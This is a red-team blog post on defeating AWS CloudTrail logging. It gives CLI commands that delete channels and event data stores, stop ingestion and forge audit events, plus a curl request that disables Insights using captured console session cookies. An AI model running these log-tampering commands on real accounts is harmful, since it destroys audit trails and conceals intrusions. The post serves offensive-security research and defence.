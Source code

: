 ```yaml
---
published: true
title: Attacking AWS Cloudtrail 101
date: 2023-11-24 07:40:00 +0200
categories: [Research]
tags: Cloud
---
```


# Attacking AWS Cloudtrail 101

# Introduction

I was inspired by @[Frichette_n](https://twitter.com/Frichette_n) research about Cloudtrail bypasses and I didn’t find any material or talks discussing how we can attack Cloudtrail. 

I presented this research @[BsidesABQ](https://twitter.com/BSides_ABQ)

Since logging is one of our enemies in red team operations, I decided to do my research on how to attack Cloudtrail from Adversary perspective. 

# Table of content

1. Service-link Channels
    1. Deleting Channels 
    2. Log pensioning 
2. Event data stores
    1. Deleting stored data 
    2. Stop data logging 
3. Insights events
    1. Disabling Insights events 
4. Organization Delegated Admin
    1. DeRegister organization admin 
    2. Register organization admin 

# What is Cloudtrail?

AWS CloudTrail is an AWS service that helps you enable operational and risk auditing, governance, and compliance of your AWS account. Actions taken by a user, role, or an AWS service are recorded as events in CloudTrail.

# Service-link Channels

## Enumeration :

- aws cloudtrail list-channels --profile Cloudtrail

<img src="https://i.ibb.co/6Dfx001/1.png" alt="1" border="0">

## Abuse 1.1 :

Delete-channel permission  
> You can delete a channel between cloudtrail and crowdstrike falcon for example.

- aws cloudtrail delete-channel --channel arn:aws:cloudtrail:eu-north-1:036528129738:channel/3d5f7c83-5146-4ea5-8e62-7250313f9e26 --profile Cloudtrail

> This permission won’t work if you have EC2 machine, you need to use your own server.
> 

<img src="https://i.ibb.co/q9fR4KD/2.png" alt="2" border="0">

## Abuse 1.2 :

Put-audit-events permission 

- aws cloudtrail-data put-audit-events --channel-arn $CHANNEL_ARN --region "us-east-1" --audit-events <data> --profile cloudtrail

> It always breaks when I use JSON directly into the command so I used bash
> 

<img src="https://i.ibb.co/FWbvtvz/3.png" alt="3" border="0">

<img src="https://i.ibb.co/Y0H1sQB/4.png" alt="4" border="0">

---

# Event data store

## Enumeration :

- aws cloudtrail list-event-data-stores --profile Cloudtrail

<img src="https://i.ibb.co/fXFKgHc/5.png" alt="5" border="0">

## Abuse 1.1 :

Delete-event-data-store permission

- aws cloudtrail delete-event-data-store --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/3RNBfCT/6.png" alt="6" border="0">

## Abuse 1.2 :

stop-event-data-store-ingestion permission

- aws cloudtrail stop-event-data-store-ingestion --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/GMYsbRM/7.png" alt="7" border="0">

---

# Insights events :

## Enumeration :

- aws cloudtrail get-insight-selectors --trail-name management-events --profile Cloudtrail

<img src="https://i.ibb.co/W53NzZ5/8.png" alt="8" border="0">

## Abuse :

Put-Insight-selector permission

> By using this you are disabling the insights events.
> 
1. Enable intercept in Burpsuite

<img src="https://i.ibb.co/jV9WT5P/9.png" alt="9" border="0">

2. This request can be done with the CLi all you need is the cookies.

<img src="https://i.ibb.co/S0M5BmT/10.png" alt="10" border="0">

```bash
curl -i -s -k -X $'PUT' \
    -H $'Host: eu-north-1.console.aws.amazon.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: application/json' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://eu-north-1.console.aws.amazon.com/cloudtrail/home?region=eu-north-1' -H $'Content-Type: application/json' -H $'x-cloudtrail-xsrf-token: UkNZNHRuRmdvSkc1SFhYQTNTLVZOdTl2RkJsN2JkanNLQl9zZTVMQUIwWXwtNDAwNjEzMTg5ODI5Mzk5MzA4OXwxfDIwMjMtMTEtMjRUMTM6MTk6NDYuNzM3Wg==' -H $'Origin: https://eu-north-1.console.aws.amazon.com' -H $'Content-Length: 141' -H $'Connection: close' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Cache-Control: max-age=0' \
    -b $'aws-creds-code-verifier=mLrTV0kwR9xl3b0OUxQKI749k6drbT-eg7BDvSwFrMhbo5-X2; aws-consoleInfo=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJldS1ub3J0aC0xIiwiYWxnIjoiRVMzODQiLCJraWQiOiI1N2QxOTI5MC05NzQxLTQzMDgtYWYxOC1hNzQyNmRmYjZhYzgifQ.eyJhdF9oYXNoIjoiMzFWN2FQd3FqVkx3VmNKM19RWkVHZTd5VnRhTkxaXzYiLCJpc3MiOiJodHRwOlwvXC9zaWduaW4uYXdzLmFtYXpvbi5jb21cL3NpZ25pbiIsInN1YiI6ImFybjphd3M6aWFtOjowMTU0Mjg1NDA2NTk6dXNlclwvY2xvdWR0cmFpbCJ9.GWtXx-axeyOkZsDKsRi62by09wVmJLH810Sq-51Y2eA3zv2P48n2NAn-SwaRNCEZhdcfQHrBlsRVvQajAQ6DZm7OLXhEdppCqbdm-md_Guh6nMjiyyht22x6in9CTdQU; aws-creds=eyJ2IjoyLCJlIjoiZ01QaHFTeFBXVVRJNnEwdzF5RVhya2dyeVJCYzFOQzdNcTZVcURpWHlpRFBm%0AbnFyTTdhdEFyRktqTERONld2QkZzZ0tBakZKMVMySCUwQVZ1UWtyMEhmbmVLaXBnQ2hHWGpjYWFl%0AVHRVejlUTmU0bHRFUjZHclFRaHBwU3JjOUo1bjFBMGtJOE56Z0tpNWtEbXElMkJtUkRXVCUyQnMx%0AJTBBQTFTQUZraFZOZlljV1V5eXRmZFI2bVhraU1WSDZ2Q25LR2ZkZDZxMGprJTJGajhQWmRsREpQ%0ARWhGZHFPbyUyQkJlTm5rdzdDT3dUcEI5WlQlMEE0cGRqT0NTQ2wlMkJJazNyM01ZR05oRFRGeE1V%0ATlZaWmVLVlNUYjZVMFJ6diUyQllKWjJKcXJ0V3Z0RkpkOVEwOVhoSTFMZU5laGtSOWsyMiUwQVQz%0ARVJOV1NuTUlJb1JlRjhzNkdzV1JIUUlHYSUyRm1MeGJRdWhrYkFPR0swdU1tNmxMRzBsRlNPcmJL%0AbHRZbXBIN1ZhRVhvNUlaOGtJVyUwQWdDcXZ4SWJ5YUZvWFhaJTJGaGhnUE9FSkhsbkphV09WQ0RI%0AanB5RzJRSkEwMWFGVFZLUHR1V1RBdCUyRmxrZ3clMkZIU0VudjYxNkFBVmRyNHUlMEFwS1NNdTdt%0AanlnTlJLYkY5Ujh3czV2U25RWW44VFVxNW5LWHN5dHFjeE5LcGx0dVhhJTJCQVV6SUVlMCUyQnhz%0AJTJCbEZOTEtYZ2lqS3lQcmtnJTBBOThJQ2JNdmxoMVVwM3YxbVJKUVo5eUhpSkl0eHRPQnZuZ21Q%0AWHRyMWxiYkVncDZuTnB3eE43Rjk1Z0ZtbzBmREtGZk0zQUMlMkJVVHNZJTBBaW9YWWpob1V5Zjk3%0ASWZOMFV5ViUyQjVpd0drbXZWb1BWeVR2SjZUWCUyRnpEWk1YU0NFbXdDODVxN0VkWGZIUG9vT2w3%0AUE9JUUdmYlRaa1ElMEFmUGNDMFVYSWdCVU1EM0NuZW1lRVJhbUhBalZXSVREVjlXd0hZNE1NQiUy%0ARk1NUlZhNUQ4djdUcFpNeGt2UjFObWY3JTJGS0glMkI5OXMweTVZJTBBazNZQjRxZmdCZVNRZG5Y%0AcENGa3VmWDhHVjQ3WiUyRjBRNzdqT2NqJTJGZiUyRjNnMDJTJTJCb1R0VDhVN3I2RSUyRjBmaFRT%0ATCUyQmNlSHg5aDZJNXElMkJzJTBBbHdLNk02ZTFNR0lPbVR2WmttJTJCa3g3MiUyQmZET0FYcTBx%0ARjEwc2pQeXNXcUppZmNBVXZXU0w0NzJjWHU2b29XSmJneHRxMktZdU8zZWolMEFZTiUyRkNadXpY%0ARGRGOVdrUXRTRER0VTdwcSUyQnNUSlhvZXd6UDZOR2NQSE9OQko2czZzbWJEVUdub2I5eHUlMkJp%0AYm1YdE5XREhLelNtYmFQJTBBek9FOFFoaDFJdTU4WXc3YlM0ZnQ2UElTQUFRUEhydU1LdXI2YzE3%0AY01TJTJGSTB1Nk9HQUkzTlhRM2VmMUc1bENCY2pZV09QUWZkd2JKJTBBRmxzTDkwNXdjaDFrYmJZ%0AbHJvSnA1dDdndUcxclExc2MxSHdnNVRMN0VXNk1PS2dGQ0dLMzdTS2dETzBuRGpGa0xnVzhvUVZ0%0AQ3dSQyUwQTlMRVVBS3MxTlNCaTlNZUR3M3lJTkxXMERPYkhZZDNocmhCTFgyR3RMQ0lqemNZWGN6%0AMWdLMTVid1U3UHVzdVZaTTNPWHZtZ255R1glMEE1WDhkM2w0N29xOWRUMFlRd2hCRGtEeFF4RWlK%0AV3lOaTJBNUJJaTBNVmsxeEpMeFJyOHhUSmNXYnRpNHRPNW9HQkhyQWJ1TVJjcGJGJTBBMXRPa2J2%0AV0JOMGlzWW1HR1VBNE9wQmFDUnBpblY1MzhaUW1qUU80SHdIUlEzJTJCVFByRGxPbG90SnFVaE5G%0AY2dJR1FPU2NWQm4xdsfgsdfgdsfgsdfgdGRIJTBBQ0J4RDhUT0ZRckIlMkZoalR4enhDRyUyQjZYZE9vU1V3VlYlMkZv%0Aem9MRTdBZlVCUUx0WElyazNKdWltMWpaYmUlMkJXZHFLdmRaJTJGNDY4TjFpREMlMEFzUDBISnd0%0AT2F6dmk4QlhkWW4xbHIzN1pOY0dZM3ZIRXBBMlRsV0hhNkVEUWNWanJaaXB3Um9GdUwlMkJOeUU0%0ANVY0eTFFVHpiN2lNWkIlMEFBMGVzOVdxNjZnSzdrcUFDcU9iOSUyRmk5WHElMkZtNTFFZ0lFaHU4%0AVDBlVFd2MUxIWnd2NDA0MHFnbzRUYTF4Z2lmUGlpTU1HSUlzZ2pZdyUwQTBBMkxQUG4lMkZ4VWt1%0Aa3J6UWYxVG41YW04VXpIVE9DOHExY0NyOE5ySFd3S0g1VW9pV2pKbU0yUDdwR1h4Q2F5WEpyQ29t%0AeGZqN2FzWiUwQW9ENFR2WlpWdE5KaVB3Z1V6aGpHN1o2M1NkZVNGSXlpaG5KbmZjUWd6N0wzbkQz%0AMzlxbVc0M2dKcXRkUWxIdGo0MTZyMkpncSIsImEiOjEsImsiOjU0fQ%3D%3D; JSESSIONID=15A621603EB7FCA92753D57BCFCB5A08; aws-ubid-main=611-7283050-5123120; aws-vid=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwaWQiOiI2Y2NmYTJkNy0zNTg5LTRhNTYtOWZmYy1lYmEzOThhNzZhNGYiLCJ1YXQiOjE3MDA4MzE3MTcyNzEsImV4cCI6MTczMjM2NzcxNzI3MSwicHZkIjoiYXdzLmFtYXpvbi5jb20ifQ.aRXljW_PBiRDswnsnoguweZpXOuJpLbbGRgZ1mbnYOc; remember-account=false; aws-account-alias=036528129738; aws-account-data=%7B%22marketplaceGroup%22%3A%22AWS%22%7D; aws-userInfo=%7B%22arn%22%3A%22arn%3Aaws%3Aiam%3A%3A036528129738%3Auser%2FtestaccountBudget%22%2C%22alias%22%3A%22036528129738%22%2C%22username%22%3A%22testaccountBudget%22%2C%22keybase%22%3A%22BusFwa7ORKTMx8q4jxMcO%2FXT%2BxohCbdpsGyvdSG7mPo%5Cu003d%22%2C%22issuer%22%3A%22http%3A%2F%2Fsignin.aws.amazon.com%2Fsignin%22%2C%22signinType%22%3A%22PUBLIC%22%7D; aws-userInfo-signed=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJ1cy1lYXN0LTEiLCJhbGciOiJFUzM4NCIsImtpZCI6ImViYjdjODY1LTY3NGEtNDNjZi1hYzY2LTUxNGQ1YjQxNjlhYiJ9.eyJzdWIiOiIwMzY1MjgxMjk3MzgiLCJzaWduaW5UeXBlIjoiUFVCTElDIiwiaXNzIjoiaHR0cDpcL1wvc2lnbmluLmF3cy5hbWF6b24uY29tXC9zaWduaW4iLCJrZXliYXNlIjoiQnVzRndhN09SS1RNeDhxNGp4TWNPXC9YVCt4b2hDYmRwc0d5dmRTRzdtUG89IiwiYXJuIjoiYXJuOmF3czppYW06OjAzNjUyODEyOTczODp1c2VyXC90ZXN0YWNjb3VudEJ1ZGdldCIsInVzZXJuYW1lIjoidGVzdGFjY291bnRCdWRnZXQifQ.oQm0YxRL52ZYNmAZAe5l3JZ2X0hVsDlEeEsmoU2pldiWE1Mf5K3jBGbllNzsdfgdfsgasdfasdfasdhsdafhcSWR_EVPz8qHWj0sllbEamEg8pc46Bkn8ngVf9nrjW-S96JmOe96Zh9GTQtPq1QYP7bIL; regStatus=registered; seance=%7B%22accountId%22%3A%22036528129738%22%2C%22iam%22%3Atrue%2C%22services%22%3A%5B%22AWSCloudTrail%22%2C%22cloudtrail%22%5D%2C%22status%22%3A%22ACTIVE%22%2C%22exp%22%3A0%7D; awsc-color-theme=light; awsc-uh-opt-in=\"\"; noflush_awsccs_sid=e9aa0dda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; cloudtrail-session-id=Bzyht0Qcyfak6VcugHAl12BN77W7CsXUhW6h8o58Khw; awsccc=eyJlIjoxLCJwIjoxLCJmIjoxLCJhIjoxLCJpIjoiMTJjZDQxMDktYjI5OC00NzgxLThjYTktOTNiZTQxMTE2NDgyIiwidiI6IjEifQ==; aws-signer-token_eu-north-1=eyJrZXlWZXJzaW9uIjoiY3ZSblRkWDUxR0ZxeDdNTkNENG9rbnVaT3FwdDBEQmgiLCJ2YWx1ZSI6ImdFemt2Sy9BN01zZTN4cXlUdGZNWDF6UkFSNlY5WlZoOUtZOUhRYTd4MWc9IiwidmVyc2lvbiI6MX0=; noflush_awscnm=%7B%22hist%22%3A%5B%22ctr%22%2C%22home%22%5D%2C%22sc%22%3A%5B%5D%2C%22tm%22%3A%22tm-both%22%2C%22ea%22%3Atrue%2C%22consoleFlags%22%3A%5B%22F%22%2C%22G%22%2C%22J%22%2C%22H%22%2C%22L%22%5D%7D; noflush_Region=eu-north-1; last-sign-in-session=e9aadda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; toolsExperience={}; awsc-rac=BAH30|CGK33|CPT33|DXB33|HKG33|HYD33|MEL33|MXP30|TLV30|ZAZ30|ZRH30@1700831742609; noflush_awsc_cct_config_version=6CMfVeLSUFu_q_sUXRTc_ZaZy4fH5pf8sRxOAQt_JAc' \
    --data-binary $'{\"trailArn\":\"arn:aws:cloudtrail:eu-north-1:036528129738:trail/management-events\",\"trailHomeRegion\":\"eu-north-1\",\"trailInsightSelectors\":\"[]\"}\x0d\x0a\x0d\x0a\x0d\x0a' \
    $'https://eu-north-1.console.aws.amazon.com/cloudtrail/service/putInsightSelectors?region=eu-north-1
```

---

## Conclusion

Most of AWS permission can be weaponized if the attacker understood how it works, if you used condition statements you will prevent anyone from using what I call dangerous permissions [ Deleting, editing ….etc. ], even if there misconfiguration only the principal you are allowing will be able to use it.
